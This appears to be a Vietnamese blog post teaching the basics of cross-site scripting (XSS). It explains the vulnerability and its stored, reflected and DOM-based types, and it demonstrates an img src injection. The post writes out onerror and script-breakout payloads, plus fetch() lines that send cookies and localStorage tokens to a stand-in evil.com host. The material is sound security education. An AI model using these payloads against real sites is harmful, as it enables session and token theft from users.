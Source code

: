 ```yaml
---
title: "Một vài điều cần biết về XSS!!"
publishedAt: "2025-03-30"
image: "/images/blogs/about-xss/thumbnails.png"
summary: "Trong bài blog này, mình sẽ giải thích ngắn gọn các khái niệm liên quan và kết hợp với demo để các bạn dễ hình dung."
tags: ["Security"]
---
```


## XSS là gì?

Cross-Site Scripting (XSS) là một lỗ hổng bảo mật phổ biến trong các ứng dụng web, cho phép kẻ tấn công chèn mã độc (thường là JavaScript) vào trang web mà người dùng khác truy cập. Điều này có thể dẫn đến việc đánh cắp thông tin nhạy cảm, chiếm quyền điều khiển phiên làm việc, hoặc thực hiện các hành động thay mặt nạn nhân.

Một ví dụ đơn giản và dễ hiểu: 

Giả sử bạn có một trang web cho phép người dùng thay ảnh đại diện của mình bằng cách nhập URL của ảnh để bạn không cần lưu trữ và xử lý ảnh trên server (hoặc một trường hợp khác tương tự).
Người dùng có thể nhập URL của ảnh từ một trang web khác, và bạn sẽ render nó như sau:

```html
<img src="{userInput}" />
```


Kẻ tấn công vô tình biết được điều này và đã lừa người dùng thay avatar của mình bằng một URL độc hại như sau:

```html
https://example.com/evil.png" onerror="alert('XSS!')

```

`https://example.com/evil.png` là một ảnh không tồn tại, vì vậy trình duyệt sẽ không thể tải được ảnh này và sẽ gọi hàm `onerror` để xử lý lỗi. Trong trường hợp này, hàm `onerror` sẽ thực thi mã JavaScript mà kẻ tấn công đã chèn vào, dẫn đến việc hiển thị thông báo "XSS!".

Thay vì hiển thị thông báo, kẻ tấn công có thể thực hiện các hành động khác như gửi cookie của người dùng đến máy chủ của mình hoặc thực hiện các hành động khác trên trang web mà người dùng đang truy cập.

Bạn nào mà còn lưu API key, token hay cookie trong localStorage hoặc sessionStorage thì không khác gì dâng token cho kẻ tấn công đâu nhé. Ví dụ thay vì `alert('XSS!')`, nếu là:

```html
fetch('https://evil.com/steal-cookie?cookie=' + document.cookie)
```

hay: 


```html
fetch('https://evil.com/steal-token?token=' + localStorage.getItem('token'))
```

thì kẻ tấn công đã có thể lấy được cookie hay token của người dùng rồi.

---

## Các loại XSS phổ biến

1. **Stored XSS (XSS lưu trữ)**  
   Mã độc được lưu trữ vĩnh viễn trên máy chủ (ví dụ: trong cơ sở dữ liệu) và được thực thi khi người dùng truy cập trang bị ảnh hưởng.

2. **Reflected XSS (XSS phản chiếu)**  
   Mã độc được phản chiếu từ máy chủ, thường thông qua URL hoặc input form, và được thực thi trong trình duyệt của nạn nhân.

3. **DOM-based XSS**  
   Lỗ hổng tồn tại trong mã phía client, nơi trình duyệt thực thi mã độc do việc thao tác không an toàn với DOM.

---

## XSS có thể được thực hiện qua những cách nào?

### Ví dụ kịch bản tấn công XSS thông qua src của thẻ img

Ứng dụng web của bạn cho phép người dùng nhập URL ảnh để hiển thị (ví dụ: ảnh đại diện, ảnh sản phẩm), và bạn render nó như sau:

```html
<img src="{userInput}" />

```

Nếu không validate kĩ userInput, kẻ tấn công có thể gửi:
```html
"><script>alert('XSS')</script>

```

Khi đó, thẻ `<img>` sẽ không được render thành:
```html
<img src=""><script>alert('XSS')</script> />

```
Và mã JavaScript sẽ được thực thi, dẫn đến việc hiển thị thông báo "XSS".